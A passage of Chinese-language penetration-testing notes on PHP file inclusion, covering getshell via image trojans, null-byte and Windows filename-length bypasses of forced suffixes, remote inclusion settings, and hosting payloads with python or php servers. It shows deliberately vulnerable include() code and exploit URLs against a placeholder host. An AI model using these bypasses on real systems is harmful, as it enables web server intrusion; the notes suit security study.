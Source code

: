 - 包含图片马|txt等任意文件都能getshell(文件内有一句话)

### 有限制的本地包含绕过

- 自动在包含文件后面加上后缀

  ```php
  <?php include($_GET['file']).'php';?>
  ```

  绕过方式

  - 00截断

    php<5.3.4，且magic_quote_gpc=off

    ```
    http://xxx/include.php?file=1.jpg%00
    ```

  - windows文件名长度特性绕过

    ```
    http://xxx/include.php?file=1.jpg.....................
    ```

    > Windows下要长于198字符，超出的部分会被丢弃
    > Linux下要长于4096字符，超出的部分会被丢弃。(无法绕过)

## 远程文件包含漏洞利用

包含远程服务器上的文件

> allow url fopen=on/off是否允许打开URL文件，该选项为on便是允许包含URL对象文件等。默认开启
> allow url include=on/off是否允许引用URL文件，激活URL形式的fopen封装协议使得可以访问URL对象文件等。默认关闭
>
> 两者都为on时，才能够远程包含。本地包含不受这两参数影响

### 启用web环境监听

python（有目录遍历功能）

```python
python3 -m http.server 8000
python2 -m SimpleHTTPServer 8080
```

PHP（无目录遍历）

```php
php -S 0.0.0.0:8000
```

### 有限制的远程包含绕过

- 自动在包含文件后面加上后缀

  ```
  <?php include($_GET['file'].'php')?>
  ```
